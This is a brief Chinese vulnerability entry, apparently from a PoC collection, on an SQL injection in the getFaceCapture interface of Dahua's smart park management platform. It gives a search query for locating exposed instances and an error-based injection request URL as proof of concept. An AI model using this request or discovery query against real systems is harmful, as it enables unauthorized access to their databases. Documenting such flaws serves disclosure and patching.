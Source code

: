 # 大华 智慧园区综合管理平台 getFaceCapture SQL注入漏洞

# 大华 智慧园区综合管理平台 getFaceCapture SQL注入漏洞

## 漏洞描述

大华 智慧园区综合管理平台 getFaceCapture 接口存在SQL注入漏洞，攻击者通过漏洞可以执行任意SQL语句，获取数据库敏感信息

## 漏洞影响

智慧园区综合管理平台

## 网络测绘

```
app="dahua-智慧园区综合管理平台"
```

## 漏洞复现

![image-20230828144644472](images/image-20230828144644472.png)

请求POC

```
/portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20md5(123)),0x7e),1)--%22%7D/extend/%7B%7D
```

![image-20230828145938818](images/image-20230828145938818.png)

